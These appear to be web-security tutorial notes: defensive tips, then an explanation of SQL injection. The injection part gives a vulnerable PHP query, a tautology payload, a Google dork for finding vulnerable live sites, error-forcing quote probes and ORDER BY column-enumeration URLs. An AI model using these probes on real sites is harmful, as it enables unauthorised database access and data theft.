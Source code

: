 1. Sanitize input perfectly. If it is not what you are expecting, don't take it.
   Check for markup in the input values, especially \<script\> elements.
   Escape "quote" characters so that they are literally used and not interpreted
2. Do not run multiple queries in a single stroke.
3. Give out very generic error messages to the client. Never send
   database errors to the front end.
4. Avoid eval\(\) as far as possible.
5. Use Secure communication to avoid Man-in-the-middle attacks.
   SSL + Basic Authentication if you can.
6. Use Http-only cookies as far as possible.
7. As users, don't click on links to get to your wanted sites.
   Type them in the address bar.

## SQL Injection

Many web applications take user input from a form
Often this user input is used literally in the construction of a SQL query submitted to a database. For example:
SELECT productdata FROM table WHERE productname = ‘user input product name’;
A SQL injection attack involves placing SQL statements in the user input

Consdier the following example
Let's say we have a product search input field and the user enters the following
blah‘ OR ‘x’ = ‘x

This input is put directly into the SQL statement within the Web application:
$query = “SELECT prodinfo FROM prodtable WHERE prodname = ‘” . $\_POST[‘prod_search’] . “’”;
Creates the following SQL:
SELECT prodinfo FROM prodtable WHERE prodname = ‘blah‘ OR ‘x’ = ‘x’
Attacker has now successfully caused the entire table to be returned.

what can be done using sql injection

1. Add new data to the database. Could be embarrassing to find yourself selling politically incorrect items on an eCommerce site
2. Perform an INSERT in the injected SQL
3. Modify data currently in the database. Could be very costly to have an expensive item suddenly be deeply ‘discounted’. Perform an UPDATE in the injected SQL
4. Often can gain access to other user’s system capabilities by obtaining their password
5. Delete records from a database.

using google dorks search for a vulnerable website using
inurl: products.php?id=
They may be prospective vulnerable websites.
add a single quote to the url to force an sql error.
http://targetwebsite.com/products.php?prodid=3'
if the mysql error us displayed, we know that the website is vulnerable.

Find the number of columns in a table using ORDER BY.When you get a ERROR it indicates that number of columns has exceeded

```
http://targetwebsite.com/products.php?prodid=3 ORDER BY 1
http://targetwebsite.com/products.php?prodid=3 ORDER BY 2
http://targetwebsite.com/products.php?prodid=3 ORDER BY 3
http://targetwebsite.com/products.php?prodid=3 ORDER BY 4
http://targetwebsite.com/products.php?prodid=3 ORDER BY 5
http://targetwebsite.com/products.php?prodid=3 ORDER BY 6
http://targetwebsite.com/products.php?prodid=3 ORDER BY 7
```
